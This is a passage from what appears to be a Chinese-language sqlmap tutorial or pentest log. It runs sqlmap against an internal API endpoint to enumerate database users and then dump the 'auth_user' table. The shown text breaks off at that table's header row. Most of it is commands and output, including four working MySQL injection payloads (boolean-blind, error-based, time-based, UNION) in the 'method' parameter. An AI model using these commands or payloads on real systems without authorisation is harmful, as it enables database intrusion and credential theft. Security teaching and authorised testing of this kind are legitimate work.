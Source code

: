 	python sqlmap.py -u http://172.20.201.203:9000/apis/dashboard/typetopcount\?method\=POST\&topCount\=3 --users

	[14:21:05] [INFO] fetching database users
	database management system users [1]:
	[*] 'db_itapi_dpl'@'%'
	
	[14:21:05] [INFO] fetched data logged to text files under '/Users/didi/.sqlmap/output/172.20.201.203'
	
	

### 2.7 获取数据库表内容 --dump

	python sqlmap.py -u http://172.20.201.203:9000/apis/dashboard/typetopcount\?method\=POST\&topCount\=3 -D 'itapidb' -T 'auth_user' --dump
	        ___
	       __H__
	 ___ ___[.]_____ ___ ___  {1.3.8.12#dev}
	|_ -| . [.]     | .'| . |
	|___|_  ["]_|_|_|__,|  _|
	      |_|V...       |_|   http://sqlmap.org
	
	[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
	
	
	[14:26:10] [INFO] resuming back-end DBMS 'mysql'
	[14:26:10] [INFO] testing connection to the target URL
	sqlmap resumed the following injection point(s) from stored session:
	---
	Parameter: method (GET)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause
	    Payload: method=POST' AND 5176=5176 AND 'EvFC'='EvFC&topCount=3
	
	    Type: error-based
	    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	    Payload: method=POST' AND (SELECT 2244 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(2244=2244,1))),0x7170717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'CWNF'='CWNF&topCount=3
	
	    Type: time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	    Payload: method=POST' AND (SELECT 8526 FROM (SELECT(SLEEP(5)))yhHi) AND 'Djtf'='Djtf&topCount=3
	
	    Type: UNION query
	    Title: Generic UNION query (NULL) - 2 columns
	    Payload: method=POST' UNION ALL SELECT CONCAT(0x716a7a6b71,0x685773786e4b6578754b534c4a79487979684b46586a77546d6a69656677786e7748474a4a746177,0x7170717871),NULL-- rehY&topCount=3
	---
	[14:26:10] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0
	[14:26:10] [INFO] fetching columns for table 'auth_user' in database 'itapidb'
	[14:26:10] [INFO] fetching entries for table 'auth_user' in database 'itapidb'
	Database: itapidb
	Table: auth_user
	[1 entry]
	+----+---------+----------+--------------------------------------------------------------------------------+----------+-----------+-----------+------------+----------------------------+----------------------------+--------------+
	| id | email   | is_staff | password                                                                       | username | is_active | last_name | first_name | last_login                 | date_joined                | is_superuser |